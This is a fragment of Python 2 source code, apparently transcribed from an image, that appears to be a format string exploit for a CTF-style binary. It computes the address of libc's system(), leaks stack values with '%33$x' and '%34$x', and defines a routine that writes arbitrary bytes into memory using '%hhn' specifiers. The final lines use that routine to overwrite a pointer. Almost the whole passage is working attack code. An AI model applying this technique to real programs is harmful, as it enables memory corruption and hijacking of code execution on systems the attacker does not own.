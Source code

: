 ```
return s

W('Exit',False)

def FA(x,pad=True):

S('1')

S('.TO')

S('.SUB')

if pad:

S('[<({'+x+'})>]')

else:

S(x)

W('Exit',False)

S('3')

S('1')

s = W('Exit',False)

if pad:

s = s[s.find('[<({')+4:s.find('})>]')]

S('4')

S('1')

W('Exit',False)

return s

system = 0x3ea70-0x19993+0xf7489993

print 'system @ %08x'%system

print FA('%33$x'),FA('%34$x')

def WS(x,offset):

FA('%%%dc%%21$hhn'%(0x68+offset)) # write 33 (ffb28d68)

if ord(x)!=0:

FA('%%%dc%%33$hhn'%ord(x),pad=False) #write ffb28d6c+offset

else:

FA('%33$hhn',pad=False)

WS('\x70',0)

WS('\xea',1)

WS('\x4a',2)
```